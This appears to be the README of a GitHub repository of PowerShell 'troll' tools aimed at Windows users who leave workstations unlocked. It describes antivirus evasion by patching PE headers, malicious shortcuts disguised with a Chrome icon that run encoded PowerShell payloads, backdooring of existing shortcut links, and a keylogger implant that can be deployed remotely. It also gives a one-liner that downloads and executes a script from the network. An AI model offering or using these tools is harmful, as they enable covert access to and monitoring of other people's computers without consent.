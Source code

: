 # trollsrc
PoCs to share for trolling

These tools are intended to be used in a well-configured windows environment that allows for some user-level powershell execution.
Have a problem with admins leaving their workstations unlocked? Teach them a lesson by performing a benign backdoor on their primary web browser and wait :D

## .\Invoke-Dickfuscation.ps1
* Takes a target binary
* Bypasses most AV by overwriting the 'This program cannot be run in DOS mode' PE bytes with an ASCII cock

## .\make-shortcut.ps1
* Generates malicious shortcut links (chrome Icon mimicked by default)
* Takes powershell 1 liners as an argument; base64 encodes and executes payload when the icon is clicked

## .\bd-lnk.ps1 
* Takes a shortcut path as an argument; backdoors it with a troll message payload
* it will backdoor the link with a powershell troll msg and then redirect execution to the original application
* this will copy the source icon to $env:homepath\trollz\linkbackup\$foo.lnk for restoration
* .\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

## .\keyimp.ps1
* keyimp-ri.ps1 is intended for REMOTE implants, i.e. this can be run on a system via WinRM 
* keyimp.ps1 and simple-keyimp.ps1 are intended to be loaded from the target user session (unlocked workstation)
* loads up a keylogger that pops calc.exe anytime 'c' is pressed
* iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")
